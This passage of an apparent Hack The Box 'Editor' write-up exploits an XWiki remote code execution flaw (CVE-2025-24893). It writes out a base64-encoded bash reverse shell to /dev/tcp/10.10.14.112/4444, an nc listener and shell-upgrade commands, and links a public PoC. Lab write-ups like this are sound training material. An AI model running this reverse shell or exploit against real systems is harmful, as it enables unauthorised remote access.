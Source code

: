 

![editor_4](https://gianlucabassani.github.io/assets/editor/htb_editor_4.png)



- Wiki has a login page and provides developer posts hinting at system behavior.

---
## 3. Exploitation

### XWiki RCE (CVE-2025-24893)

- Vulnerable version 15.10.8 identified. (https://www.offsec.com/blog/cve-2025-24893/) 
	
- PoC available at: [GitHub CVE-2025-24893 PoC](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py)



---
#### Reverse Shell Payload

- Encode reverse shell and insert it into the PoC:



```bash
echo -n 'bash -c '"'"'sh -i >& /dev/tcp/10.10.14.112/4444 0>&1'"'"'' | base64
# YmFzaCAtYyAn... (use in exploit)
```

- Replace exploit_url with the new payload:

![editor_5](https://gianlucabassani.github.io/assets/editor/htb_editor_5.png)



- Start listener:
    

```bash
nc -nvlp 4444
```



- Connection received as user `xwiki`.
    


#### Upgrade TTY

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
reset (if needed)
export TERM=xterm
```

```shell
xwiki@editor:/usr/lib/xwiki-jetty$ ls -lah /home
```
